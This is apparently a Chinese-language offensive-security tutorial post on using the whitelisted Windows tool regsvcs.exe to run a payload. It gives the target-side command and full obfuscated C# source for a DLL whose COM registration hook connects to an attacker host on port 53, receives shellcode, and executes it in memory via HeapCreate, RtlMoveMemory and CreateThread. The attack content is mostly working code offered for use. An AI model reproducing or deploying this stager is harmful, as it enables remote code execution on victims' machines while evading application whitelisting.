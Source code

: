 ```yaml
---
title: 74、基于白名单regsvcs.exe执行payload第四季
date: 2019-09-21 19:06:20
comments: true
categories: 
 - Micro8系列
---
```



  
  
### Regsvcs简介：

Regsvcs为.NET服务安装工具，主要提供三类服务：  
* 加载并注册程序集。  
* 生成、注册类型库并将其安装到指定的 COM+ 1.0 应用程序中。  
* 配置以编程方式添加到类的服务。  

**说明：**Regsvcs.exe所在路径没有被系统添加PATH环境变量中，因此，Regsvcs命令无法识别。

具体参考微软官方文档：  
https://docs.microsoft.com/en-us/dotnet/framework/tools/regsvcs-exe-net-services-installation-tool

基于白名单Regsvcs.exe配置payload：

Windows 7 默认位置：
```code
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：**192.168.1.3 Windows 7

### 配置攻击机msf：
![](../do/media/f80a8df6945621d36a5dd72bf623281a.jpg)

### 靶机执行：
```code
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe Micropoor.dll
```
![](../do/media/5a929f376966814377cd69342c7f8f17.jpg)

### 附录：Micropoor.cs
**注：x86 payload**

```csharp
using System; using System.Net; using System.Linq; using System.Net.Sockets; using System.Runtime.InteropServices; using System.Threading; using System.EnterpriseServices; using System.Windows.Forms;

namespace phwUqeuTRSqn

{

public class mfBxqerbXgh : ServicedComponent { 

public mfBxqerbXgh() { Console.WriteLine("Micropoor"); } 

[ComRegisterFunction]

public static void RegisterClass ( string DssjWsFMnwwXL )

{

uXsiCEXRzLNkI.BBNSohgZXGCaD();

} 

[ComUnregisterFunction]

public static void UnRegisterClass ( string DssjWsFMnwwXL )

{

 uXsiCEXRzLNkI.BBNSohgZXGCaD();

}

} 

public class uXsiCEXRzLNkI

{ [DllImport("kernel32")] private static extern UInt32 HeapCreate(UInt32 pAyHWx, UInt32 KXNJUcPIUymFNbJ, UInt32 MotkftcMAIJRnW);

[DllImport("kernel32")] private static extern UInt32 HeapAlloc(UInt32 yjmmncJHBrUu, UInt32 MYjktCDxYrlTs, UInt32 zyBAwQVBQbi);

[DllImport("kernel32")] private static extern UInt32 RtlMoveMemory(UInt32 PorEiXBhZkA, byte[] UIkcqF, UInt32 wAXQEPCIVJQQb);

[DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 WNvQyYv, UInt32 vePRog, UInt32 Bwxjth, IntPtr ExkSdsTdwD, UInt32 KfNaMFOJVTSxbrR, ref UInt32 QEuyYka);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr pzymHg, UInt32 lReJrqjtOqvkXk);static byte[] SVMBrK(string MKwSjIxqTxxEO, int jVaXWRxcmw) {

IPEndPoint hqbNYMZQr = new IPEndPoint(IPAddress.Parse(MKwSjIxqTxxEO), jVaXWRxcmw);

Socket LbLgipot = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { LbLgipot.Connect(hqbNYMZQr); }

catch { return null;}

byte[] VKQsLPgLmVdp = new byte[4];

LbLgipot.Receive(VKQsLPgLmVdp, 4, 0);

int jbQtneZFbvzK = BitConverter.ToInt32(VKQsLPgLmVdp, 0);

byte[] cyDiPLJhiAQbw = new byte[jbQtneZFbvzK + 5];

int vyPloXEDJoylLbj = 0;

while (vyPloXEDJoylLbj < jbQtneZFbvzK)

 { vyPloXEDJoylLbj += LbLgipot.Receive(cyDiPLJhiAQbw, vyPloXEDJoylLbj + 5, (jbQtneZFbvzK ‐ vyPloXEDJoylLbj) < 4096 ? (jbQtneZFbvzK ‐ vyPloXEDJoylLbj) : 4096, 0);}

byte[] MkHUcy = BitConverter.GetBytes((int)LbLgipot.Handle);

Array.Copy(MkHUcy, 0, cyDiPLJhiAQbw, 1, 4); cyDiPLJhiAQbw[0] = 0xBF;

return cyDiPLJhiAQbw;}

static void ZFeAPdN(byte[] hjErkNfmkyBq) {

if (hjErkNfmkyBq != null) {

UInt32 xYfliOUgksPsv = HeapCreate(0x00040000, (UInt32)hjErkNfmkyBq.Length, 0);

UInt32 eSiulXLtqQO = HeapAlloc(xYfliOUgksPsv, 0x00000008, (UInt32)hjErkNfmkyBq.Length);

RtlMoveMemory(eSiulXLtqQO, hjErkNfmkyBq, (UInt32)hjErkNfmkyBq.Length);

UInt32 NByrFgKjVjB = 0;

IntPtr PsIqQCvc = CreateThread(0, 0, eSiulXLtqQO, IntPtr.Zero, 0, ref NByrFgKjVjB);

WaitForSingleObject(PsIqQCvc, 0xFFFFFFFF);}} 

public static void BBNSohgZXGCaD() {

byte[] cyDiPLJhiAQbw = null; cyDiPLJhiAQbw = SVMBrK("192.168.1.4", 53);

ZFeAPdN(cyDiPLJhiAQbw);

} } }
```
>   Micropoor
